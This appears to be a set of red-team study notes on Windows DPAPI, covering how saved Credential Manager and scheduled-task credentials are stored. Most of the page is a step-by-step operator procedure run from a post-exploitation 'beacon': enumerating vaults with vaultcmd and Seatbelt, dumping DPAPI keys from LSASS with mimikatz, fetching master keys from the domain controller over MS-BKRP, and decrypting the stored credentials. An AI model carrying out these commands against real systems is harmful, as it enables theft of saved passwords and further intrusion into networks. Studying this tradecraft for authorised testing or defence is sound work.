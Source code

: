 # Data Protection API (DPAPI)

DPAPI is a Windows component that encrypts/decrypts data using cryptographic keys tied to a user or computer and allows both native Windows functionality and third-party applications to protect data transparently to the user. DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by applications like Google Chrome to store website credentials.

## Windows Credential Manager

* A credential is the actual encrypted credential data. 
* A vault holds records of encrypted credentials and a reference to the encrypted blobs. Windows has two vaults:
  * Web Credentials (for storing browser credentials)
  * Windows Credentials (for storing credentials saved by mstsc, etc)

1: To enumerate a user's vaults, use the native vaultcmd tool or SeatBelt from a beacon: 
* ```run vaultcmd /list```
* ```run vaultcmd /listcreds:"Windows Credentials" /all```
* ```execute-assembly Seatbelt.exe -group=<user>```
* ```execute-assembly Seatbelt.exe WindowsVault```

2: If a user has saved credentials for the local administrator account on a machine, the encrypted credentials are stored in the users' C:\Users\<user>\AppData\Local\Microsoft\Credentials directory. To enumerate those files: 

```execute-assembly Seatbelt.exe WindowsCredentialFiles```

Seatbelt also gives the GUID of the master key used to encrypt the creds; they're stored encrypted in C:\Users\<user>\AppData\Roaming\Microsoft\Protect\S-1-5...\<GUID>\

3: Need to decrypt the master key to obtain the encryption key, then use that key to decrypt the creds. 

If have local admin and the key is cached in LSASS (user has recently used the cred): Use ```mimikatz !sekurlsa::dpapi``` and compare the GUID it returns; if a match, this is the kay to use.

If not local admin (don't need LSASS): as the user whose key it is, request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP): Use ```mimikatz dpapi::masterkey /in:C:\Users\<user>\AppData\Roaming\Microsoft\Protect\S-1-5...\<GUID> /rpc```

4: Decrypt the blob: ```mimikatz dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\<cred filename> /masterkey:8d15...```

## Scheduled Task Credentials

Scheduled Tasks can save creds to be run under the context of a user without logging on. With local admin privileges, we can decrypt them.

    beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

1: Find the GUID of the master key used to encrypt each cred:

    beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

2: Dump cached keys:

    beacon> mimikatz !sekurlsa::dpapi

3: Decrypt:

    beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<file> masterkey:10530....

